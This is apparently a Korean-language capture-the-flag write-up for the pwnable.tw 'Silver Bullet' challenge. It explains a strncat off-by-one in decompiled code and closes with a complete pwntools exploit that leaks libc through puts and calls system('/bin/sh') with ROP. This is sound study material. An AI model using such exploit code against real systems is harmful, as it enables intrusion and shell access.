 ```yaml
---
title: "[pwnable.tw]Silver Bullet"
date: 2020-1-26
tags: [pwnable.tw]
categories: [pwnable.tw]
---
```


3개 메뉴로 구성되어있는 바이너리다.

1번 메뉴를 보면 입력받은 걸 s에 저장한다.근데 존재하면 그냥 꺼집니다. 그리고 *(s+12)에는 사이즈를 저장한다.

```c
int __cdecl create_bullet(char *s)
{
  size_t v2; // ST08_4

  if ( *s )
    return puts("You have been created the Bullet !");
  printf("Give me your description of bullet :");
  read_input(s, 48u);
  v2 = strlen(s);
  printf("Your power is : %u\n", v2);
  *(s + 12) = v2;
  return puts("Good luck !!");
}
```

2번 메뉴에서는 추가로 더 값을 쓸 수 있다. 여기서 strncat이라는 함수를 사용해서 값을 이어붙일 수 있다. 그런데 48을 넘길 수는 없다.

```c
int __cdecl power_up(char *dest)
{
  char s; // [esp+0h] [ebp-34h]
  size_t v3; // [esp+30h] [ebp-4h]

  v3 = 0;
  memset(&s, 0, 48u);
  if ( !*dest )
    return puts("You need create the bullet first !");
  if ( *(dest + 12) > 47u )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(&s, 48 - *(dest + 12));
  strncat(dest, &s, 48 - *(dest + 12));
  v3 = strlen(&s) + *(dest + 12);
  printf("Your new power is : %u\n", v3);
  *(dest + 12) = v3;
  return puts("Enjoy it !");
}
```

3번 메뉴인데 특이한점은 *(a1+48) 즉 사이즈만큼 계속 빼준다. *a2의 초기값은 2147483647이다.

```c
signed int __cdecl beat(int a1, _DWORD *a2)
{
  signed int result; // eax

  if ( *a1 )
  {
    puts(">----------- Werewolf -----------<");
    printf(" + NAME : %s\n", a2[1]);
    printf(" + HP : %d\n", *a2);
    puts(">--------------------------------<");
    puts("Try to beat it .....");
    usleep(1000000u);
    *a2 -= *(a1 + 48);
    if ( *a2 <= 0 )
    {
      puts("Oh ! You win !!");
      result = 1;
    }
    else
    {
      puts("Sorry ... It still alive !!");
      result = 0;
    }
  }
  else
  {
    puts("You need create the bullet first !");
    result = 0;
  }
  return result;
}
```

strncat에서 off-by-one 취약점이 일어난다. 이 함수를 보면 a와b의 문자열을 합치는데 a뒤의 널바이트를 제거하고 b뒤에 널바이트를 붙인다. 1번 메뉴에서 47개를 입력하고 2번 메뉴에서 1개를 입력하면 널바이트가 추가된다. 48개 뒤에는 *(s+12)위치인데 이 위치에는 사이즈를 저장한다. 여기서 사이즈를 초기화 시킬 수 있다. 그러면 입력을 더 받을 수 있고 ROP가 가능하다. 

puts를 leak해주고 main으로 돌아가려면 3번메뉴에서 main함수에서 return 1을 해줘서 다시 초기 main으로 돌아올 수 있다. 아까 했던거 처럼 똑같이해줘서 리턴을 원하는곳으로 갈 수 있으므로 원샷 날리던지 system함수로 쉘을 띄우면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./silver_bullet')
p = process('./silver_bullet')
p = remote('chall.pwnable.tw',10103)
#libc = e.libc
libc = ELF('./libc_32.so.6')
pebx = 0x08048475 # pop ebx ; ret

p.sendlineafter(':','1')
p.sendafter(':','A'*47)
p.sendlineafter(':','2')
p.sendafter(':','A')

# buf = 0x34 = 52
payload = 'A'*7 # 'A'*47 + A + '\x00' + 'A'*7 = 56
payload += p32(e.plt['puts']) + p32(pebx) + p32(e.got['puts']) # ret
payload += p32(e.symbols['main'])
p.sendlineafter(':','2')
p.sendafter(':',payload)

p.sendlineafter(':','3')
p.sendlineafter(':','3')

puts = u32(p.recvuntil('\xf7')[-4:])
log.info('puts : ' + hex(puts))
libc_base = puts - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter(':','1')
p.sendafter(':','A'*47)
p.sendlineafter(':','2')
p.sendafter(':','A')

oneshot=[0x3a819,0x5f065,0x5f066]
payload2 = 'A'*7
#payload2 += p32(libc_base + 0x3a819) #one_shot
payload2 += p32(libc_base + libc.symbols['system']) + p32(pebx) + p32(libc_base + libc.search('/bin/sh\x00').next())
p.sendlineafter(':','2')
p.sendafter(':',payload2)

p.sendlineafter(':','3')
p.sendlineafter(':','3')

p.interactive()
```

